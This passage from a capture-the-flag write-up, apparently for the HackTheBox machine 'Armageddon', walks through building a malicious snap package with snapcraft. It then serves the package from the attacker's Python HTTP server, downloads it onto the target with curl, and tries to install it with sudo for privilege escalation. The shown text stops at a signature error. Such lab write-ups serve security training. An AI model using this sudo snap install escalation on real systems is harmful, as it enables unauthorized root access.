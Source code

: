     parts:
      my-part:
        plugin: nil
    EOF



Now on running `snapcraft`, it creates the package:



    df@buntu:/tmp/dirty_snap$ snapcraft
    This snapcraft project does not specify the base keyword, explicitly setting the base keyword enables the latest snapcraft features.
    This project is best built on 'Ubuntu 16.04', but is building on a 'Ubuntu 20.04' host.
    Read more about bases at https://docs.snapcraft.io/t/base-snaps/11198
    Pulling my-part 
    Building my-part 
    Staging my-part 
    Priming my-part 
    Snapping 'armageddon' |                                                                                      
    Snapped armageddon_0.1_amd64.snap
    df@buntu:/tmp/dirty_snap$ ls *.snap
    armageddon_0.1_amd64.snap



### Transfer to Armageddon

I'll start a Python HTTP server in the directory on my local box where
the snap package is:



    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



Now from Armageddon, I'll request it. `wget` isn't installed, but `curl`
is:



    [brucetherealadmin@armageddon shm]$ curl 10.10.14.7/armageddon_0.1_amd64.snap -o armageddon_0.1_amd64.snap
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  4096  100  4096    0     0  21478      0 --:--:-- --:--:-- --:--:-- 21671



### Install Snap

To install the package, I'll run the command with `sudo` and pass it the
snap. It fails:



    [brucetherealadmin@armageddon shm]$ sudo snap install armageddon_0.1_amd64.snap 
    error: cannot find signatures with metadata for snap "armageddon_0.1_amd64.snap"
